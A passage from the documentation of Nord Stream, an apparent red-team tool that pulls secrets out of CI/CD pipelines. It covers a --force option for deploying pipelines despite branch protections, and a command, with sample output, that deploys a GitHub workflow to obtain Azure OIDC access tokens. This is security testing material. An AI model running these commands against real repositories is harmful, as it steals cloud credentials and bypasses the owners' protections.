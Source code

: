 This requires admin privileges.

#### Force

By default, if Nord Stream detect a protection on a branch or on an environment it won't perform the secret extraction. If you think that the protections are too permissive or can be bypassed with your privileges, the `--force` option can be used to deploy the pipeline regardless of protections.

#### Azure OIDC

OIDC (OpenID Connect) can be used to connect to cloud services. The general idea is to allow authorized pipelines or workflows to get short-lived access tokens directly from a cloud provider, without involving any static secrets. Authorization is based on trust relationships configured on the cloud provider's side and being conditioned by the origin of the pipeline or workflow.

Here is an example of a GitHub workflow using OIDC:

```yaml
[...]
steps:
    - name: OIDC Login to Azure Public Cloud
    uses: azure/login@v1
    with:
        client-id: ${{ secrets.AZURE_CLIENT_ID }}
        tenant-id: ${{ secrets.AZURE_TENANT_ID }}
        subscription-id: ${{ secrets.AZURE_SUBSCRIPTION_ID }} # this can be optional
```

If you come across such a workflow, this means that the repository might be configured to get a short-lived access token that can give you access to Azure resources.

Nord Stream is able to deploy a pipeline to retrieve such access token with the following options:

```bash
$ nord-stream.py github --token "$PAT" --org Synacktiv --repo repo --branch-name main --azure-client-id 65cd6002-25b9-11ee-88ac-7f80b19430c2 --azure-tenant-id 65cd6002-25b9-11ee-88ac-7f80b19430c2
[*] Using branch: "main"
[+] "synacktiv/repo"
[*] No branch protection rule found on "main" branch
[*] Running OIDC Azure access tokens generation workflow
[*] Getting workflow output
[!] Workflow not finished, sleeping for 15s
[+] Workflow has successfully terminated.
[+] OIDC access tokens:
Access token to use with Azure Resource Manager API:
{
  "accessToken":
"eyJ0eXAiOiJK[...]PVig",
  "expiresOn": "2023-07-18 23:18:57.000000",
  "subscription": "65cd6002-25b9-11ee-88ac-7f80b19430c2",
  "tenant": "65cd6002-25b9-11ee-88ac-7f80b19430c2",
  "tokenType": "Bearer"
}

Access token to use with MS Graph API:
{
  "accessToken":
"eyJ0eXAi[...]_qTA",
  "expiresOn": "2023-07-19 22:18:59.000000",
  "subscription": "65cd6002-25b9-11ee-88ac-7f80b19430c2",
  "tenant": "65cd6002-25b9-11ee-88ac-7f80b19430c2",
  "tokenType": "Bearer"
}
```

